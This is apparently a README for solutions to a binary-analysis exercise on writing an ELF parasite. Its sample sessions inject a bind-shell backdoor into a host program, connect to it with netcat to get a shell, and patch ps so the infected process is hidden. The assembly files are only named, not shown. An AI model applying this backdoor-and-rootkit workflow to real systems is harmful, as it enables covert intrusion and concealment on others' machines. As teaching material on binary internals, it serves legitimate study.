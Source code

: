 # An ELF Parasite

Write your own ELF parasite and use elfinject to inject it into a program
of your choice. See whether you can make the parasite fork off a child
process that opens a backdoor. Bonus points if you can create a modiﬁed
copy of ps that doesn’t show the parasite process in the process listing.

## Solution

victim.c (acts as the host binary)\
elf-parasite.s (acts as a bind shell)

## Bonus Solution

ps-parasite.s (acts as the process hider)
ps-patcher.py (acts as a patch helper)

## Sample Session

Victim machine:

```
$ gcc -o victim victim.c
$ nasm -f bin -o elf-parasite.bin elf-parasite.s
$ ./elfinject victim elf-parasite.bin ".parasite" 0x800000 0
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
```

Attacker machine:

```
$ nc -nv 10.0.0.33 19484
found 0 associations
found 1 connections:
     1: flags=82<CONNECTED,PREFERRED>
        outif en0
        src 10.0.0.37 port 61034
        dst 10.0.0.33 port 19484
        rank info not available
        TCP aux info available

Connection to 10.0.0.33 port 19484 [tcp/*] succeeded!
whoami
admin
exit
```

## Sample Session (Bonus)

```
$ nasm -f bin -o ps-parasite.bin ps-parasite.s
$ python3 ps-patcher.py # this patches calls to readproc/readproctab2
[*] Copying /bin/ps to [...]/ps-modified
[*] Applying readproc patch at offset 0x2cf9
[*] Applying readproctab2 patch at offset 0x2909
[*] Done applying patches
$ ./elfinject ps-modified ps-parasite.bin ".parasite" 0x800000 -1
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
$ # The victim process is hidden in all of the following ps outputs:
$ ./ps-modified
[...]
$ ./ps-modified aux
[...]
$ ./ps-modified -e
[...]
$ ./ps-modified -ef
[...]
$ ./ps-modified f (invokes readproctab2)
[...]
